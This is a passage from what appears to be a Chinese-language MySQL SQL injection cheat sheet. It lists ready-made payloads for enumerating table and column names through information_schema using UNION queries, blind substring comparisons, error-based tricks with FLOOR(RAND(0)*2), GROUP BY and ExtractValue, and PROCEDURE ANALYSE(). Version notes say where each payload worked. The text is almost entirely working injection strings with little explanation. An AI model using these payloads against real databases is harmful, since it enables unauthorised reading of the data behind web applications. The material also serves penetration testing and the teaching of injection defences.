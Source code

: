     ```sql
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT table_name FROM information_schema.tables LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT table_name FROM information_schema.tables LIMIT 1)));
    -- 在5.1.5版本中成功。
    ```

### 列名

-   union 查询

    ```sql
    UNION SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'tablename'
    ```

-   盲注

    ```sql
    AND SELECT SUBSTR(column_name,1,1) FROM information_schema.columns > 'A'
    ```

-   报错

    ```sql
    -- 在5.1.5版本中成功
    AND (1,2,3) = (SELECT * FROM SOME_EXISTING_TABLE UNION SELECT 1,2,3 LIMIT 1)
    -- MySQL 5.1版本修复了
    AND(SELECT COUNT(*) FROM (SELECT 1 UNION SELECT null UNION SELECT !1)x GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),FLOOR(RAND(0)*2))) (@:=1)||@ GROUP BY CONCAT((SELECT column_name FROM information_schema.columns LIMIT 1),!@) HAVING @||MIN(@:=0); AND ExtractValue(1, CONCAT(0x5c, (SELECT column_name FROM information_schema.columns LIMIT 1)));
    ```

-   利用 `PROCEDURE ANALYSE()`

    ```sql
    -- 这个需要 web 展示页面有你所注入查询的一个字段
    -- 获得第一个段名
    SELECT username, permission FROM Users WHERE id = 1; 1 PROCEDURE ANALYSE()
    -- 获得第二个段名
    1 LIMIT 1,1 PROCEDURE ANALYSE()
    -- 获得第三个段名
    1 LIMIT 2,1 PROCEDURE ANALYSE()
    ```

### 根据列名查询所在的表

```sql
-- 查询字段名为 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name = 'username';
-- 查询字段名中包含 username 的表
SELECT table_name FROM information_schema.columns WHERE column_name LIKE '%user%';
```
